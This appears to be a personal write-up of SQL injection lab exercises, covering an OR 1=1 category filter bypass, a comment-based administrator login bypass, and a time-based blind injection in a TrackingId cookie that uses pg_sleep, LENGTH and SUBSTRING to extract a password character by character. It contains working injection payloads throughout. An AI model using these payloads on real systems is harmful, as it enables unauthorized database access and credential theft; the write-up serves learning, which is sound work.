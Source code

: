 # SQL injection

## SQL injection in WHERE clause allowing retrieval of hidden data
Injecting an SQL payload into a GET request. 
```
GET /filter?category='+OR+1=1-- HTTP/2
```

## SQL injection vulnerability allowing login bypass
Entering a single quotation mark ' into the password field creates a 500 Internal Server Error which implies this may be exploitable via SQL injection.
Use the payload: **administrator'--** and fill in any password in order to bypass the password check entirely.

## SQL injection action, querying the database version and type on Oracle

## Blind SQL injection using a timing attack to guess password
There is an SQL injection in the Tracking ID cookie, where the backend submits the tracking id as part of an SQL query without any input validation. This is a blind SQL injection vulnerability and doesn't display anything back to the user, but we can use the conditional function CASE to trigger a sleep when the condition is true:
```
Cookie: TrackingId=x'%3bSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

We can exploit this to try to access the administrator username from the users table:
```
Cookie: TrackingId=x'%3bSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;
```

We can use the LENGTH prooperty to now determine the length of the password. I used a binary search approach to quickly determine that the length is 20.
```
Cookie: TrackingId=x'%3bSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>19)+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--;
```

After determing the password length as 20, we we brute-force the password character at a time using Burp's Intruder feature and the SQL SUBSTRING function. We give the Intruder the list of valid characters, and run it for each index in the password
```
TrackingId=x'%3bSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--;
```
In this instance the first character is: 1
second: 3
third: 5
fourth: q
fifth: i
sixth: s
7: q
8: 4
9: 6
10: 0
...